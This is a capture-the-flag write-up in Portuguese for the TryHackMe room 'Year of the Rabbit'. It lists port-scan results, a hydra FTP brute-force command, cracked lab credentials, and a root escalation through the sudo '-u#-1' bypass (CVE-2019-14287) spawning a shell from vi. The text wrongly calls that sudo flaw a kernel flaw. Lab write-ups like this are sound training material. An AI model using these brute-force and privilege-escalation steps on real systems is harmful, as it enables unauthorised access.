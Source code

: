 #ctf
# Year of the Rabbit
https://tryhackme.com/room/yearoftherabbit

## Identificando alvo
Rodando NMAP em todas as portas:

        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.2
        22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.10 ((Debian))

Existe um arquivo http://10.10.22.61/sup3r_s3cr3t_fl4g.php que ao acessar o cabeçalho da resposta possui isso "intermediary.php?hidden_directory=/WExYY2Cv-qU"

Acessando a url http://10.10.22.61/WExYY2Cv-qU/ existe uma imagem que olhando seu hexadecimal possui o usuario ftp (ftpuser) e uma lista de senhas

Rodando o bruteforce:

```sh
hydra -l ftpuser -P hash.txt <IP> ftp
```
ftpuser:5iez1wGXKfPKQ

No serviço FTP existe um .txt criptografado (brainfuck). Ao decriptografar temos o usuario eli:DSpDiM1wAEwid para acessar o ssh.

## Privesc
Ao logar existe um banner dizendo de um arquivo s3cr3t escondido, então rodando:

```sh
find / -name s3cr3t 2>/dev/null
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
gwendoline:MniVCQVhQHUNI

Dando um *sudo -l* é possível ver os comandos que o usuario consegue rodar sem precisar da senha

        (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

O kernel do sistema é vulneravel a esta falha [2019-14287](https://www.exploit-db.com/exploits/47502). Então rodando

```sh
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!/bin/bash
```
GG
